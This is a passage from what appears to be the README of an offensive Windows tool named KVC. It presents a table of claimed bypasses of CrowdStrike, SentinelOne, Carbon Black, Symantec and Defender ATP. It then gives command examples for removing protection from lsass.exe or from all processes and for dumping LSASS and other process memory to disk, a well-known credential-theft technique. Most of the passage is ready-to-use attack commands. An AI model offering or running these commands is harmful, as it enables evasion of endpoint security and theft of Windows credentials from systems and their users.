 
### EDR Evasion Results

Testing against common EDR solutions:

| EDR Solution | Traditional API Calls | KVC Direct Syscalls |
|--------------|----------------------|-------------------|
| CrowdStrike Falcon | ❌ Blocked | ✅ Bypassed |
| SentinelOne | ❌ Blocked | ✅ Bypassed |
| Carbon Black | ❌ Blocked | ✅ Bypassed |
| Windows Defender ATP | ⚠️ Alerted | ✅ Clean |
| Symantec | ❌ Blocked | ✅ Bypassed |

## 📊 Command Reference & Usage Examples

### Core Process Protection Commands

```bash
# List all protected processes with color-coded output
kvc.exe list

# Query specific process protection status
kvc.exe get lsass.exe
kvc.exe info MsMpEng.exe

# Apply protection to unprotected process  
kvc.exe protect notepad.exe PPL Windows
kvc protect total PPL WinTcb

# Force protection level change (overwrites existing)
kvc.exe set 5678 PP WinTcb

# Remove protection (single, multiple, or all)
kvc.exe unprotect lsass.exe
kvc.exe unprotect 1234,5678,9012
kvc.exe unprotect all
```

### Memory Acquisition Commands

```bash
# Dump LSASS to Downloads folder (default)
kvc.exe dump lsass

# Dump specific PID to custom location
kvc.exe dump 1044 C:\Windows\Temp

# Dump by process name with custom path
kvc.exe dump chrome.exe D:\path
```
